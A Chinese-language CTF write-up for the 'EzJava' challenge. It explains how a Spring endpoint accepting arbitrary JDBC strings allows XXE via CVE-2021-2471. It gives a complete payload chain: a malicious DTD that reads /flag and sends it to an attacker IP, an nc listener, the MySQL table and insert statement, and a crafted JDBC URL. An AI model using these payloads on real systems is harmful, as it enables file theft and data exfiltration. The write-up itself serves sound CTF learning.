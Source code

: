 # EzJava

主页提示路由 `/vuln` ，访问后有本题的提示：

```
为什么是Java?Jar包能干嘛?JDBC依赖是什么?CVE是什么?XXE是什么?怎么读取到Flag?SQL是什么?上哪去搭恶意服务?读了Flag却看不到?那咋办呢o.O?
```

下载的jar包可以用 [jadx-gui](https://github.com/skylot/jadx) 反编译，拿到源代码后关注 `org.example.ezjava` 这个包的内容，里面就是本体的源码，在"MainController"中能看到POST访问 `/vuln` 路由时，用户可以传入自定义的 jdbc 连接串，通过该连接串 jdbc 将会访问指定的远程数据库，从库中的 `exp` 表中访问记录的 `content` 内容，并将其作为XML解析。

```java
 @PostMapping({"/vuln"})
    public String vuln(@RequestParam(value = "jdbc_conn", defaultValue = "") String jdbc_conn) throws SQLException, ClassNotFoundException {
        Class.forName("com.mysql.cj.jdbc.Driver");
        Connection connection = DriverManager.getConnection(jdbc_conn);
        if (connection != null) {
            Statement statement = connection.createStatement();
            statement.execute("select * from exp");
            ResultSet resultSet = statement.getResultSet();
            while (resultSet.next()) {
                SQLXML sqlxml = resultSet.getSQLXML("content");
                sqlxml.getSource(DOMSource.class);
            }
            return "O.o你拿到flag了吗?";
        }
        return "O.o你拿到flag了吗?";
    }
```

结合提示与搜索引擎能够找到这是个公开漏洞：CVE-2021-2471。漏洞细节大家自己搜索技术博客学习，简单来说就是 `SQLXML` 这个类的 `getSource` 方法允许XXE攻击。提示中给出flag的位置在根目录下，我们需要用XXE读取 `/flag` 文件并将其外带。我们需要在公网（服务器或者内网穿透）搭建一个Mysql服务，任意创建一个库，添加一张名为 `exp` 表格，保证其有 `content` 字段，并写入一条记录，其 `content` 字段的内容是 XXE 的攻击 payload 即可。关于 XXE 的攻击细节自行学习，下面提供参考的攻击流程与payload。

---

假设公网有一台用于攻击的服务器，其IP是 `233.233.233.233`：

1. 使用 `23333` 端口监听外带的flag：

   ```bash
   nc -lvnp 23333 
   ```

2. 搭建静态网页服务，服务起在 80 端口，放置一个恶意dtd文件，其路径为静态网站根目录下的：`XXE/evil.dtd` ，内容：

   ```dtd
   <!ENTITY % secret SYSTEM "file:///flag">
   <!ENTITY % evil_dtd "<!ENTITY &#37; exp SYSTEM 'http://233.233.233.233:23333/?res=%secret;'>">
   %evil_dtd;
   %exp;
   ```

3. Mysql服务搭建在 3306 端口，账户密码为 `root:root`，创建一个名为 `Test` 的数据库，创建一张 `exp` 表：

   ```mysql
   CREATE TABLE `exp` (
     `id` int NOT NULL AUTO_INCREMENT,
     `content` text,
     PRIMARY KEY (`id`)
   ) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_0900_ai_ci;
   ```

   插入一条记录：

   ```mysql
   insert into `exp`(content) values('<?xml version="1.0" encoding="utf-8"?><!DOCTYPE remote SYSTEM "http://233.233.233.233:80/XXE/evil.dtd">');
   ```

4. 确保上述服务都搭建完毕，且都可以被正确的访问（不行的话检查服务状态和防火墙），然后POST访问 `/vuln` 路由，需要传入的jdbc连接串如下：

   ```mysql
   jdbc:mysql://233.233.233.233:3306/Test?user=root&password=root
   ```

   传参时需要URL编码，最后传入的参数长这样：

   ```php
   jdbc_conn=jdbc%3Amysql%3A%2F%2F233%2E233%2E233%2E233%3A3306%2FTest%3Fuser%3Droot%26password%3Droot
   ```

   如果你的操作正确，你能在监听外带信息的端口看到类似如下的请求包：

   ```bash
   Listening on 0.0.0.0 23333
   Connection received on 124.222.157.100 52522
   GET /?res=r00t2024{5a124970-b219-4818-8460-76a5ce491df7} HTTP/1.1
   User-Agent: Java/17-ea
   Host: 233.233.233.233:23333
   Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
   Connection: keep-alive
   ```

   

